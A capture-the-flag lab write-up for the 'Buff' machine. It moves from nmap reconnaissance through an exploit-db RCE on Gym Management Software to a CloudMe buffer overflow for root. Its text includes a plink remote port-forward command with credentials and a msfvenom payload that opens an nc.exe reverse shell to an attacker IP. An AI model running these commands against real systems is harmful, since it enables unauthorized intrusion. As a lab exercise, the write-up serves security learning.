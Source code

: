 # Buff

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 10.10.10.198`
![](1.png)

`http://10.10.10.198:8080/`
![](2.png)
*Now if you go to the About section of the website then youll find that it is created using Gym management software 1.0*
![](3.png)

*After googling the software version i found a RCE vulneraility in the system. the exploit of the vulnerability is uploaded on exploit-db* 
![](4.png)

*I downloaded it and executed it as shown further and i got a reverse shell of the machine*
![](5.png)

**Here we get the user flag**


*Now we need to get a command shell of the machine , so in order to  get a command line shell we need to upload following exe files
NETCAT : TO GET A REVERSE SHELL
PLINK : TO PORT FORWARD*

![](6.png)
![](7.png)
![](8.png)
![](9.png)

**Now getting root flag..**


*If you enumerate more in the machine then in the Download folder you  will get a exe file `Cloudme1.11.2.exe` which represents that the version  is vulnerable to Buffer Overflow . We have a exploit for that verision  on exploit-db 
Now we need to Port forward the ip of the machine using plink which we alraedy uploaded on the machine
so lets upload using following command :* 

`plink1.exe -l prof3ssor -pw toor 10.10.14.96 -R 8888:127.0.0.1:8888`

![](10.png)
![](11.png)

Now we need to do some changes in our 48389 exploit , just copy the  output of the following metasploit payload and replace it to 48389  exploits buffer codes
The metasploit payload : `msfvenom -p windows/exec  CMD=’c;\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.96 4444′ -b  ‘\x00\x0a\x0d’ -f py -v payload` 

![](12.png)
*Now start a netcat listner as nc -lnvp 4444 and on the second terminal exeute the payload as follows :*

![](13.png)
 *we got the root privilege in the system Now lets find the root flag .*